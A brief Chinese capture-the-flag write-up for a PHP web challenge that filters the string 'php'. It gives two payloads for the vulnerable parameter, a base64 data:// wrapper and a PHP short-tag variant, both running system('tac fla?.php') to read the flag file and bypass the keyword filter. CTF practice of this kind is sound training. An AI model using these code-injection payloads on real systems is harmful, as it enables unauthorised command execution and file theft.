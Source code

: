 # 知识点
相较于web37过滤了php
### 短标签
[https://blog.csdn.net/qq_32320151/article/details/53607616](https://blog.csdn.net/qq_32320151/article/details/53607616)
# 思路
### 方法一
```git
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ0YWMgZmxhPy5waHAiKTs/Pg==
```
![image.png](./images/20231017_2350448771.png)
### 方法二 短标签
```git
?c=data://text/plain,<?= system("tac fla?.php");?>
```
